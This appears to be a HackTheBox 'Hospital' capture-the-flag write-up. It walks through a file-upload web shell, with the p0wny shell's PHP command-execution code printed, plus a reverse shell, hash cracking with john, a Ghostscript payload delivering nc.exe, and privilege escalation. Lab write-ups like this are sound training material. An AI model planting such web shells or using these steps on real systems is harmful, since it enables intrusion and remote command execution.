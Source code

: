 ```yaml
---
layout: post
title: "Hospital-Windows-Medium"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/box-hospital.png
---
```


# Hospital

HackTheBox: Medium

<aside>
💡 Monitored is a windows machine

</aside>

## 1: Enumeration
<br/><br/>
- nmap scanning
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_1.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_2.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_3.png' | relative_url }})
<br/><br/>
We can see 2 http services, go forward the one which allows create an account
<br/><br/>
Testing some allowed extensions, we realise .phar extensions.
There is a  tool called ponyshell, downloaded and change its extensions
<br/><br/>
```bash
<?php

$SHELL_CONFIG = array(
    'username' => 'p0wny',
    'hostname' => 'shell',
);

function expandPath($path) {
    if (preg_match("#^(~[a-zA-Z0-9_.-]*)(/.*)?$#", $path, $match)) {
        exec("echo $match[1]", $stdout);
        return $stdout[0] . $match[2];
    }
    return $path;
}

function allFunctionExist($list = array()) {
    foreach ($list as $entry) {
        if (!function_exists($entry)) {
            return false;
        }
    }
    return true;
}

function executeCommand($cmd) {
    $output = '';
    if (function_exists('exec')) {
        exec($cmd, $output);
        $output = implode("\n", $output);
    } else if (function_exists('shell_exec')) {
        $output = shell_exec($cmd);
    } else if (allFunctionExist(array('system', 'ob_start', 'ob_get_contents', 'ob_end_clean'))) {
        ob_start();
        system($cmd);
        $output = ob_get_contents();
        ob_end_clean();
    } else if (allFunctionExist(array('passthru', 'ob_start', 'ob_get_contents', 'ob_end_clean'))) {
        ob_start();
        passthru($cmd);
        $output = ob_get_contents();
        ob_end_clean();
    } else if (allFunctionExist(array('popen', 'feof', 'fread', 'pclose'))) {
        $handle = popen($cmd, 'r');
        while (!feof($handle)) {
            $output .= fread($handle, 4096);
        }
        pclose($handle);
    } else if (allFunctionExist(array('proc_open', 'stream_get_contents', 'proc_close'))) {
        $handle = proc_open($cmd, array(0 => array('pipe', 'r'), 1 => array('pipe', 'w')), $pipes);
        $output = stream_get_contents($pipes[1]);
        proc_close($handle);
    }
    return $output;
}

function isRunningWindows() {
    return stripos(PHP_OS, "WIN") === 0;
}
```
<br/><br/>
We can search with gobuster to search routes 
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_4.png' | relative_url }})
<br/><br/>
## 2: User flag
<br/><br/>
We can use a rev shell and generate estability
<br/><br/>
Using uname -a we can see there is a vulnerable kernel version, download the exploit 
<br/><br/>
- We are root at data → cat /etc/passwd
<br/><br/>
```bash
john hash.txt rockyou.txt
```
<br/><br/>
We’ve got creds in the 443 port interface, there we find a Gohostscript vulnerability
<br/><br/>
Clone the repository and create the payload to injected 
<br/><br/>
1. We send a payload with nc.exe request by email
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_5.png' | relative_url }})
<br/><br/>
1. Once it is on the victim machine we sent another payload with the rev shell
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_6.png' | relative_url }})
<br/><br/>
## 3: Priv esc
<br/><br/>
Start this part where you spawn, theres is a file called ghostscrip.bat lets type it
<br/><br/>
We found some rcpclient creds

<br/><br/>
### rcpclient
<br/><br/>
It has functions of authentication and enumeration of services, getting information about users
<br/><br/>
```bash
rcpclient -u "user" url 
querydispinfo
```
<br/><br/>
We realise that guest user has admin permises so lets go to C:\xampp\htdocs and user ponyshell again wiht a .php ext
<br/><br/>
Machine pwned./!!
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>


<link rel="stylesheet" href="{{ '/assets/css/imagesstyle.css' | relative_url }}">
